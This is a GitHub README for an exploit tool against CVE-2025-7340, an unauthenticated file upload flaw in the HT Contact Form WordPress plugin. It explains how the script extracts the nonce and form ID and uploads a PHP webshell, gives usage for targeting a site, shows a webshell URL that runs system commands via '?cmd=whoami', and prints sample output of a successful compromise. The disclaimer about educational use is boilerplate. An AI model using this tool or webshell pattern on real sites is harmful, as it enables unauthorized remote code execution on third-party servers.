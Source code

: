
# 🚨 HT Contact Form Widget <= 2.2.1 - Unauthenticated Arbitrary File Upload (CVE-2025-7340)

**CVE:** CVE-2025-7340  
**CVSS:** 9.8 (Critical)

## 📝 Description

The **HT Contact Form Widget For Elementor Page Builder & Gutenberg Blocks & Form Builder.** plugin for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in the `temp_file_upload` function in all versions up to, and including, **2.2.1**.

This allows **unauthenticated attackers** to upload arbitrary files to the server, potentially leading to **Remote Code Execution (RCE)**.

---

## ⚡ Exploit Script

This repository includes a Python exploit script that automates the discovery of the vulnerable form and uploads a webshell to the affected site.

The script intelligently detects required parameters (`nonce`, `form_id`, `ajax endpoint`) and uploads a PHP shell into the vulnerable path.

✅ **Vulnerable form URL example:**

```
http://target.com/contact/
```

✅ **The vulnerable form must be on the page you pass to `-u` option.**

---

## 📦 Requirements

Before running the script, install the required Python modules:

```bash
pip install -r requirements.txt
```

Content of `requirements.txt`:

```
requests
colorama
```

---

## 🧰 Usage

```bash
usage: CVE-2025-7340.py [-h] 

Exploit for CVE-2025-7340 - Unauthenticated Arbitrary File Upload | by Khaled Alenazi (Nxploited)

options:
  -h, --help     show this help message and exit
  -u, --url URL  Target URL e.g http(s)://target.com

```



### Options:
| Option            | Description                                     |
|-------------------|-------------------------------------------------|
| `-h, --help`      | Show this help message and exit                |
| `-u, --url URL`   | Target URL e.g. `http(s)://target.com/contact` |

---

## 🐚 Webshell Usage

Once the exploit finishes successfully, you can access your uploaded shell at the given path.

Append `?cmd=<your_command>` to execute system commands.

✅ Example:
```
http://target.com/wp-content/uploads/ht_form/temp/shell.php?cmd=whoami
```

---

## 🖥️ Example Output

```
Starting exploit against target...
Fetching target page...
Extracting parameters...
Extracted Nonce: 346c441903
AJAX Endpoint: http://nxploit.ddev.site/wp-admin/admin-ajax.php
Form ID: 86
Generating webshell...
Uploading shell, please wait...

[+] Exploit Successfully!

Go to: wp-content/uploads/ht_form/temp/687590d90ac1c-shell.php

Exploit by: Khaled Alenazi (Nxploited) - GitHub: https://github.com/Nxploited
```

---

## 🛑 Disclaimer

This tool is provided for **educational and research purposes only**.  
The author is **not responsible** for any damage or misuse of this code.  
Always have explicit permission before testing against any system.

---

## 👨‍💻 By

**Khaled Alenazi (Nxploited)**  
[GitHub: Nxploited](https://github.com/Nxploited)
